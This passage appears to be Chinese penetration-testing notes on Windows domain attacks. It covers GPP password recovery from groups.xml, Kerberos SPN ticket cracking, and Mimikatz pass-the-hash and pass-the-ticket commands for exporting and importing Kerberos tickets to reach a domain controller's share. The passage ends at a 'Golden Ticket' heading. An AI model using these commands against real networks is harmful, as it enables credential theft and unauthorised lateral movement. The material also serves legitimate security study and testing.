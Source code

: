组策略对象:组策略容器(GPC)和组策略模板(GPT)

组策略模板位置:%systemroot%\sysvol\domainname\Policies\{GUID}

当管理员使用(为所有域成员主机添加本地用户)的组策略首选项后,域成员会下载groups.xml文件,里面有新建用户信息,可解密.

利用工具:Get-GPPPassword.

#### SPN票据破解

破解方法

```
RC4加密方式使用tgsrepcrack.py
AES加密方式通过kirbi2john转换为hash,通过john/hashcat破解
```

SPN扫描

获取破解SPN票据

使用字典进行破解

#### Mimikatz后渗透中应用

##### Pass-The-Hash

1. 了解NTLM认证过程

2. 使用mimikatz进行hash传递攻击过程

   ```shell
   1.本机抓取密码hash
   2.使用mimikatz中的sekurlsa::pth命令
   3.弹出cmd.尝试查看目标共享
   ```
##### Pass-The-Ticket

```shell
#查看当前用户的ticket
Kerberos::list
#导出当前用户ticket
Kerberos::list /export
#查看所有ticket
Sekurlsa::tickets
#导出所有ticket
Sekurlsa::tickets /export
```

将获取的票据在其他机器导入

```
Kerberos::ptt 票据名
导入票据后用:Dir\\DC\c$ 测试
```
##### Pass-The-Cache

获取缓存目录的票据

#### Golden Ticket

